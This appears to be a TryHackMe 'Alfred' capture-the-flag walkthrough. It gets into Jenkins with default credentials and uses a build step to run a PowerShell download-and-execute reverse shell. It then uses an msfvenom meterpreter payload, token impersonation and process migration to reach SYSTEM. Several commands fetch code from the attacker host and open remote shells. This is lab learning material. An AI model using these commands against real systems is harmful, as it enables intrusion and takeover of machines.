 ﻿---
title: 'Alfred - TryHackMe Walkthrough'
date: 2020-07-10 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.
---

![](/images/posts/alfred-jenkins.png)

### Goal
Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.

### Reconnaissance
The default page of the web server on port 80 is showing a image of Bruce Wyne and a donations email. But nothing else.

With the help on nmap, lets see what ports are open and services are running on the victim machine.

```bash
    $ nmap -p- -A 10.10.86.199

    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Site doesn't have a title (text/html).
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-02T21:47:32+00:00; 0s from scanner time.
    8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(9.4.z-SNAPSHOT)
    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- On port 80, we can see Microsoft IIS 7.5 web server is running.  
- 8080 - Another HTTP server on Jetty 9.4 and a robots.txt is there which can help. By visiting on port 8080, there is a Jenkins service running.  
- 3389 - Looks RDP port is open.  
- Operating System: Windows  

### Logging into Jenkins
Thought to brute force using different payloads, but while trying to capture the HTTP request, the *admin:admin* credentials worked.

### Getting a reverse shell
After looking around the tool, for executing the command on the underlying machine, found it under project --> configure --> Build.
As this is a Windows operating system, framed a powershell utility which can get executed and opens a reverse shell.
For this,
- Download the powershell code which opens a reverse shell from [Git.](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)  
- Start a simple webserver using `python3 -m http.server` in the same directory. So the victim will be able to download the powershell code file.
- Frame the command that needs to get executed on the operating system. In this case, I will listen for remote shell on 8001 port.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.18.4:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.18.4 -Port 8001
```

- Open netcat in another terminal and listen on 8001 port. `nc -lnvp 8001`
- Navigate to Jenkins and goto, project configuration and paste the powershell command that was framed above under build. So our command will become part of build process.
- Build the project using "Build now" and the victim is connected to http server and downloaded the reverse shell code and then a reverse shell in the netcat server.
- The reverse shell is opened with user alfred\bruce and have below privileges enabled:

```bash
    PS C:\Users\bruce\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                  Description                               State   
    =============================== ========================================= ========
    SeDebugPrivilege                Debug programs                            Enabled
    SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
    SeImpersonatePrivilege          Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege         Create global objects                     Enabled

```
- The flag is under  `C:\Users\bruce\Desktop\user.txt` as *79007a09481--------1321abd9ae2a0*.


### Getting a Meterpreter shell
For much convenience and to work on privilege escalation, lets get a Meterpreter shell.
- Create a payload file which opens a reverse shell and save it in the same place where the webserver is running, so the victim will be able to download.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=8002 -f exe -o shell.exe
```

- Create a reverse shell listener using Metasploit with exploit/multi/handler and having a PAYLOAD windows/meterpreter/reverse_tcp LHOST 10.2.18.4 LPORT 8002.

```bash
msf5 exploit(multi/handler) > run  
[*] Started reverse TCP handler on 10.2.18.4:8002
```

- Get this shell.exe downloaded to victim machine by executing the powershell command on the reverse shell that was already opened and start the process.

```bash
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
PS C:\Users\bruce\Desktop> dir


Directory: C:\Users\bruce\Desktop

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          7/2/2020   5:01 PM      73802 shell.exe                         
-a---        10/25/2019   3:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> Start-Process "shell.exe"
```

- The metasploit now will open a meterpreter shell:

```

    meterpreter > sysinfo
    Computer        : ALFRED
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter >
```

- `load incognito` module in meterpreter.
- List all the tokens that are available for the user, using `list_tokens -g` and we can see the user has a delegation token of BUILTIN\Administrators.
- Lets impersonate as administrator using `impersonate_token "BUILTIN\Administrators"`.
- Verify, by using `getuid`  

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
- Though we have privileged user, due to impersonating we will not be able to access complete system due to windows security.  To test this, goto C:\Windows\system32\config directory and will see only files which have full permissions.

```
meterpreter > dir
Listing: C:\Windows\system32\config
===================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  Journal
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  RegBack
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  TxR
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  systemprofile
```

- We need migrate our process (shell.exe) whose pid is 1440, to a more stable and equally privileged process by checking the processes that are running on the victim using ps.

```
1440  2848  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe
```

```
meterpreter > ps
(ommitted other entries..)
668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 1440 to 668...
[*] Migration completed successfully.
meterpreter > ls -lrt
Listing: C:\Windows\system32\config
===================================

```

- Now we can see all the files under config including our flag root.txt, which has the value *dff0f748678--------25a45b8046b4a*.
